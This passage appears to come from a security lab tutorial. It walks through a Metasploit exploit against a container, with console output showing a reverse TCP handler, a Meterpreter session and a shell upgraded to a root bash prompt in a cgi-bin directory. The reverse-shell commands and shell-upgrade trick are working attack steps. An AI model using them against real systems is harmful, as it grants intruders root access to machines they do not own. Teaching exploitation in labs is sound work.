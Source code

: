 [tabs]
====
{metasploit-terminal}::
+
--
. With all the setup we did previously, you can now simply run this command in this terminal to exploit the vulnerability on the container
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
exploit
----
+
{zwsp}
+
. After a few moments you should see the following output, ending with the a `meterpreter` console
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----

[-] Handler failed to bind to 13.239.27.229:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 13.239.27.229
[*] Meterpreter session 1 opened (172.16.249.211:4444 -> 13.239.27.229:42046) at 2021-05-30 07:31:45 +0000

meterpreter > 
----
+
{zwsp}
+
. Next type in the following to get a shell and output something like the following
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
shell
----
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Process 79 created.
Channel 1 created.
----
+
{zwsp}
+
. One thing you'll notice is a lack of a prompt after the previous output, and even though we don't see it, we're able to enter bash shell command now.  Just to make our hack more comfortable, paste this command into Terminal 2
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
/usr/bin/script -qc /bin/bash /dev/null
----
+
{zwsp}
+
You should now get a bash style prompt that will look something like this: 

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[root@b0cfa8015a4c cgi-bin]# 
----

--
====